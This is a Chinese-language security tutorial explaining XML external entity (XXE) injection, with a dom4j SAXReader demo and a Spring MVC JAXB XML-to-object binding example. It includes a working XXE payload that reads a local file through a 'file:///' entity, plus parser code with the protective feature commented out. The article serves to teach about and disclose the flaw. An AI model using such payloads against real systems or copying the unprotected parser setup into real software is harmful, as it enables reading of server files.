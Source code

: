# Spring MVC xml绑定pojo造成的XXE

0x00 背景
-------

* * *

什么是XXE ? 就是我们所说的所谓xml实体注入.这里不去讲所有xml语法规范了,稍微就说一下XML entity:

```
entity翻译为"实体"。它的作用类似word中的"宏"，也可以理解为DW中的模板，你可以预先定义一个entity，然后在一个文档中多次调用，或者在多个文档中调用同一个entity(XML定义了两种类型的entity。一种是我们这里说的普通entity，在XML文档中使用；另一种是参数entity，在DTD文件中使用。)。  

```

entity的定义语法为:

```
<!DOCTYPE filename
[  
    <!ENTITY entity-name "entity-content"  
]>

```

如果要引用一个外部资源:

```
<!DOCTYPE test
[  
    <!ENTITY test SYSTEM "http://xxx.xxx.com/test.xml">   
]> 

```

ENTITY可以使用SYSTEM关键字,调用外部资源,而这里是支持很多的协议,如:http;file等

然后,在其他DoM结点中可以使用如:`&test;`引用该实体内容.

那么,如果在产品功能设计当中,解析的xml是由外部可控制的,那将可能形成,如:文件读取,DoS,CSRF等漏洞.

这里只介绍文件读取漏洞,其他可以自己google了解.

0x01 原理
-------

* * *

规范没有问题,xml解析器有些也没有问题,有问题的是使用他的人.

java SAX解析器 demo:

Test.java

```
public static void main(String[] args) throws  Exception {   
    SAXReader reader = new SAXReader();  
    //禁止  
    //reader.setFeature("http://xml.org/sax/features/external-general-entities", true);  
    Document dom = reader.read("E:/1.xml");  
    Element root = dom.getRootElement();  
    Iterator<Element> it = root.elementIterator();  
    while (it.hasNext()) {  
        Element elements = it.next();  
        System.out.println(elements.getText());  

    }  
}  

```

解析的xml,1.xml:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test
[<!ELEMENT test ANY ><!ENTITY xxe SYSTEM "file:///E:/1.log" >]>
<root>
    <name>&amp;xxe;</name>
</root>

```

实体调用的资源，1.log：

```
XXE test!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!! 

```

先说一点,解析器一般会支持所有xml规范的.使用file协议,理论上,我们至少可以读取到当前系统的任意文件内容.如:读取E盘符下的1.log文件内容.

然后被root的子节点,name内容域引用.解析结果,如图：

![2014050722403743880.png](http://drops.javaweb.org/uploads/images/34f54af0ffd2e0e61a4c0efecef39560a9b5554c.jpg)

接下来讲，spring MVC在xml格式到java对象反序列化中，可能存在的XXE 形成的文件读取：

spring 是提供xml请求内容绑定到pojo的功能（也可以理解成javabean什么的（有区别，可以自己去看看），spring  在这里规范化了，所以就跟着叫），用得比较多的还有表单绑定，json绑定。

spring mvc JAXB xml to pojo unMarshaller  demo:

spring-servlet.xml：

```
<?xml version="1.0" encoding="UTF-8"?>  
<beans xmlns="http://www.springframework.org/schema/beans"  
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
 xmlns:p="http://www.springframework.org/schema/p"  
 xmlns:context="http://www.springframework.org/schema/context"  
 xsi:schemaLocation="http://www.springframework.org/schema/beans  
  http://www.springframework.org/schema/beans/spring-beans-3.0.xsd  
  http://www.springframework.org/schema/context  
  http://www.springframework.org/schema/context/spring-context-3.0.xsd">  
    
 <context:component-scan base-package="net.spring.controller" />   
   
   
    <bean class="org.springframework.web.servlet.mvc.annotation.AnnotationMethodHandlerAdapter">  
        <property name="messageConverters">  
            <list>  
                <ref bean="stringHttpMessageConverter" />  
                <ref bean="jsonHttpMessageConverter" />  
                <ref bean="marshallingHttpMessageConverter" />  
            </list>  
        </property>  
    </bean>  
<bean id="stringHttpMessageConverter" class="org.springframework.http.converter.StringHttpMessageConverter" />   
<bean id="jsonHttpMessageConverter" class="org.springframework.http.converter.json.MappingJacksonHttpMessageConverter" />  
<bean id="marshallingHttpMessageConverter" class="org.springframework.http.converter.xml.MarshallingHttpMessageConverter">  
        <constructor-arg ref="jaxbMarshaller" />  
        <property name="supportedMediaTypes" value="application/xml"></property>  
</bean>  
<bean id="jaxbMarshaller" class="org.springframework.oxm.jaxb.Jaxb2Marshaller">  
        <property name="classesToBeBound">  
            <list>  
                <value>net.spring.controller.User</value>  
            </list>  
        </property>  
</bean>  
</beans>  

```

HelloWorldController.java：

```
import org.springframework.stereotype.Controller;  
import org.springframework.web.bind.annotation.RequestBody;  
import org.springframework.web.bind.annotation.RequestMapping;  
import org.springframework.web.servlet.ModelAndView;  

@Controller  
public class HelloWorldController {   
    @RequestMapping("/hello")  
    public  ModelAndView helloWorld(@RequestBody User user) {  

        System.out.println("xxxxxxxxxx"+user.getName());  
        return new ModelAndView("hello", "user", user);   
    }   
} 

```

User.java（xml绑定的pojo）：

```
import javax.xml.bind.annotation.XmlElement;  
import javax.xml.bind.annotation.XmlRootElement;  

@XmlRootElement(name="user")    
public class User {  
    private String name;  

    public String getName() {  
        return name;  
}  
@XmlElement  
    public void setName(String name) {  
        this.name = name;  
    }  
}   

```

发包，xml绑定pojo,如图:

![2014050723155955348.png](http://drops.javaweb.org/uploads/images/dd3253eddae309e442e98df78dda0f0d333f8276.jpg)

pojo User对象的name属性被污染，如图：

![2014050723180180429.png](http://drops.javaweb.org/uploads/images/d4928faa4d8794bcc3dc1934e8afce0ab9e2d990.jpg)

如果，攻击者最终能看到这个name值（直接显示到页面或存储到数据库再现实到页面什么的），就是文件读取漏洞了！

不管是其他语言或场景，原理就这么回事。

spring 早已经修补，这里主要给个漏洞场景，现在基本没什么危害吧？因为这个功能使用不常见，但走在前面的框架使用者肯定会使用这个功能，可能需要等个十年左右：

https://jira.spring.io/browse/SPR-10806

当然，还存在一个小而很有意思的问题，过一段时间的文章中可能会讲到。